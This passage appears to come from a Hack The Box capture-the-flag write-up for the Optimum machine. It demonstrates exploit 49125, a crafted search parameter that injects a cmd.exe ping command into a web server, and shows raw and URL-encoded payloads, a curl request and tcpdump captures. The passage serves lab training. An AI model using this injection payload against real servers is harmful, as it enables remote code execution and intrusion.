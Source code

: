 
Exploit 49125 provides a POC demonstrating that a specially crafted HTTP request will allow RCE.

Let's demonstrate this works by sending a PING request.

```bash
http://10.129.161.181/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.9.}

# URL Encode

http://10.129.161.181/?search%3D%2500%7B.%2Bexec%7Ccmd.exe%2B%2Fc%2Bping%2B%2Fn%2B1%2B10.10.14.9.%7D

# Executing with Curl results in our attack box being pinged by the target
┌──(vagrant㉿kali)-[~/Documents/HTB/legacy]
└─$ curl http://10.129.161.181/?search%3D%2500%7B.%2Bexec%7Ccmd.exe%2B%2Fc%2Bping%2B%2Fn%2B1%2B10.10.14.

┌──(vagrant㉿kali)-[~/Documents/HTB]
└─$ sudo tcpdump -i tun0                                                                                tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes                                 23:14:47.318743 IP 10.10.14.19.37550 > 10.129.161.181.http: Flags [S], seq 3434129733, win 64240, option
s [mss 1460,sackOK,TS val 609468177 ecr 0,nop,wscale 7], length 0
23:14:47.448205 IP 10.129.161.181.http > 10.10.14.19.37550: Flags [S.], seq 3083914868, ack 3434129734,
win 8192, options [mss 1340,nop,wscale 8,sackOK,TS val 380577 ecr 609468177], length 0
23:14:47.448478 IP 10.10.14.19.37550 > 10.129.161.181.http: Flags [.], ack 1, win 502, options [nop,nop,
TS val 609468306 ecr 380577], length 0

```

We can also execute in the browser.

![ping](../../../assets/images/ctfs/hack_the_box/optimum/ping.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/HTB]                                                                    └─$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode                               listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:08:23.984420 IP 10.10.14.19.52494 > 10.129.161.181.http: Flags [S], seq 3250616747, win 64240, options [mss 1460,sackOK,TS val 609084842 ecr 0,nop,wscale 7], length 0
23:08:24.110937 IP 10.129.161.181.http > 10.10.14.19.52494: Flags [S.], seq 2249203822, ack 3250616748, win 8192, options [mss 1340,nop,wscale 8,sackOK,TS val 342246 ecr 609084842], length 0
23:08:24.110997 IP 10.10.14.19.52494 > 10.129.161.181.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 609084969 ecr 342246], length 0
```

# Exploitation

---